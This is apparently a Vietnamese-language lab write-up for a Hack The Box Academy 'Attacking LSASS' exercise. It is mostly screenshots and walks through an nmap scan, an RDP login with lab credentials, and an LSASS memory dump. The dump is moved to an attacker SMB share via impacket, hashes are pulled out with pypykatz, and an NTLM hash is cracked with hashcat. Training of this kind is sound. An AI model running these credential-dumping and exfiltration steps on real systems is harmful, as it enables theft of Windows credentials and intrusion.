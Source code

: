 ![image](https://github.com/user-attachments/assets/f3984574-ea0d-4d86-a91b-72b84ae91ea3)<h1>Attacking LSASS</h1>

![image](https://github.com/user-attachments/assets/cef1a406-7037-4174-ab60-27b9364d20f0)

![image](https://github.com/user-attachments/assets/bd099709-05b7-4261-9683-55e589629dde)

Như thông thường tôi dùng `nmap -sV 10.129.202.149` để check các port:

![image](https://github.com/user-attachments/assets/94b09b5f-2259-46b6-8d77-fa5d41620abc)

Thấy rdp là kết nối vào thôi `xfreerdp /u:'htb-student' /p:'HTB_@cademy_stdnt!' /v:10.129.202.149`:

![image](https://github.com/user-attachments/assets/8100db85-e609-40a8-a4fb-418d3e8a08e7)

![image](https://github.com/user-attachments/assets/9a29b1a6-7365-4f56-baa4-26bff5c9bfa6)

Bấm vào `create dump file` và nó sẽ được lưu vào đây:

![image](https://github.com/user-attachments/assets/20e2747c-7a85-42ac-9ef9-8287ae4ed584)

Bên máy của htb thì chạy `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1594028` để hứng file từ máy target(window):

![image](https://github.com/user-attachments/assets/913a4de1-e81a-4385-aa97-b14faae000a8)

![image](https://github.com/user-attachments/assets/9bf9258f-7bba-46e9-9b50-175085d10e9d)

![image](https://github.com/user-attachments/assets/75ce42ef-0030-445b-a47c-f1eaf60b078e)

Và tôi đã có ngay file lsass.DMP và dùng [pypykatz](https://github.com/skelsec/pypykatz) để khai thác, có thể tải bằng `pip3 install pypykatz` và dùng luôn `pypykatz lsa minidump lsass.DMP` :

![image](https://github.com/user-attachments/assets/bfb46eef-39c0-4166-a344-31403e10bcca)

Và nhiệm vụ của tôi là tìm user Vendor:

![image](https://github.com/user-attachments/assets/0cfd2419-9d2f-4fce-9035-96aab3418877)

Tôi chạy `sudo hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 rockyou.txt` để brute force và đợi 1 chút là ra: 

![image](https://github.com/user-attachments/assets/f4d41aaf-59d4-407b-a59b-655b99ab77e7)

![image](https://github.com/user-attachments/assets/122064ab-418e-4855-bf19-e95c58f6fd1f)
